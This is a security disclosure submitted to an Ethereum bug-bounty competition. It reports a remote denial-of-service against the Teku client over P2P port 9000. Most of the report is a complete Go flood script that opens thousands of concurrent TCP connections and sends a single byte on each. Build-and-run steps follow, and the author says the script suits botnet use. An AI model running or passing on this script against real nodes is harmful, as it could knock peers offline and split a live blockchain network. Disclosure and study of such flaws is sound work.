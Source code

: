 # #37505 \[BC-Insight] Remotely spamming 1 byte leads to full peer removal and desync in both execution and consensus clients

**Submitted on Dec 6th 2024 at 16:49:18 UTC by @\`redacted user\` for** [**Attackathon | Ethereum Protocol**](https://immunefi.com/audit-competition/ethereum-protocol-attackathon)

* **Report ID:** #37505
* **Report Type:** Blockchain/DLT
* **Report severity:** Insight
* **Target:** https://github.com/Consensys/teku
* **Impacts:**
  * Causing greater than or equal to 25% of network processing nodes to process transactions from the mempool beyond set parameters (e.g. prevents processing transactions from the mempool)
  * Unintended chain split affecting greater than or equal to 25% of the network (Network partition)
  * Causes desynchronization in both Consensus and Execution clients

## Description

## Brief/Intro

A remote desynchronization (P2P DoS) exploit has been identified in Teku 24.10.3. A single attacking machine can disable remote nodes by spamming a blank space over raw tcp/9000.

## Vulnerability Details

The latest release is susceptible to a simple remote DoS. Unlike a process crash, it recovers after a couple of minutes when the script is turned off - but with a sustained botnet attack, it's an irrelevant detail, because the attack would come from a botnet regardless.

During the attack, the test/victim node machine running `teku` struggles to operate and maintain SSH comms - despite no significant rise in MEM or CPU - oddly. I have no explanation for that and in fact hope that you might.

It only requires a single attacking machine to complete the DoS. I used a 4 CPU core Ubuntu VPS to attack. The provided script automatically scales in a way that accommodates system CPU resources on the attack machine - rendering it perfect for a botnet, and for testing.

## Impact Details

As of now, Teku comprises 25.37% of the consensus layer. An attack surface of this size being attacked simultaneously, disabling all P2P comms between nodes running `teku`, we'd see bad netsplits. Both execution and consensus clients would be thrown out of sync all at once and the network would be fractured.

## Attack code and steps to reproduce

### Attack script (golang)

```
package main

import (
    "fmt"
    "net"
    "runtime"
    "sync/atomic"
    "syscall"
    "time"
)

const (
    nodeAddress = "127.0.0.1:9000"
    payload     = " "
)

type stats struct {
    count      uint64
    errorCount uint64
}

var payloadBytes = []byte(payload)
var targetAddr *syscall.SockaddrInet4

func init() {
    // Pre-resolve the target address
    addr, err := net.ResolveTCPAddr("tcp", nodeAddress)
    if err != nil {
        panic(err)
    }
    ip := addr.IP.To4()
    targetAddr = &syscall.SockaddrInet4{
        Port: addr.Port,
        Addr: [4]byte{ip[0], ip[1], ip[2], ip[3]},
    }
}

func worker(s *stats) {
    for {
        // Create raw socket
        fd, err := syscall.Socket(syscall.AF_INET, syscall.SOCK_STREAM, 0)
        if err != nil {
            atomic.AddUint64(&s.errorCount, 1)
            continue
        }

        // Set non-blocking
        syscall.SetNonblock(fd, true)

        // Connect without waiting
        err = syscall.Connect(fd, targetAddr)
        if err != nil && err != syscall.EINPROGRESS {
            syscall.Close(fd)
            atomic.AddUint64(&s.errorCount, 1)
            continue
        }

        // Send without waiting for connection completion
        syscall.Write(fd, payloadBytes)
        syscall.Close(fd)
        atomic.AddUint64(&s.count, 1)
    }
}

func printStats(s *stats) {
    start := time.Now()
    lastCount := uint64(0)
    lastTime := start

    ticker := time.NewTicker(time.Second)
    defer ticker.Stop()

    for range ticker.C {
        now := time.Now()
        currentCount := atomic.LoadUint64(&s.count)
        currentErrors := atomic.LoadUint64(&s.errorCount)

        elapsed := now.Sub(lastTime).Seconds()
        rate := float64(currentCount-lastCount) / elapsed
        totalElapsed := now.Sub(start).Seconds()

        fmt.Printf("Sent: %d, Errors: %d, Rate: %.2f/s, Avg Rate: %.2f/s\n",
            currentCount, currentErrors, rate, float64(currentCount)/totalElapsed)

        lastCount = currentCount
        lastTime = now
    }
}

func main() {
    runtime.GOMAXPROCS(runtime.NumCPU())

    s := &stats{}

    numWorkers := 500 * runtime.NumCPU()
    fmt.Printf("Starting %d workers across %d CPUs...\n", numWorkers, runtime.NumCPU())

    go printStats(s)

    for i := 0; i < numWorkers; i++ {
        go worker(s)
    }

    select {}
}
```

If you need any technical assistance whatsoever, I'm around.

### Steps to reproduce (Ubuntu)

1. Paste the code above into a text editor, change "127.0.0.1:9000" to your `teku` server's IP:P2PPort and save the file as `attack.go`
2. `snap install go --classic`
3. `ulimit -n 100000`
4. `go build attack.go`
5. `./attack`

Let it run patiently and observe the undesirable behavior of the test victim node.

## Proof of Concept

## Proof of Concept

Screenshots of the attack and functioning attack code serve as the PoC to this vulnerability.

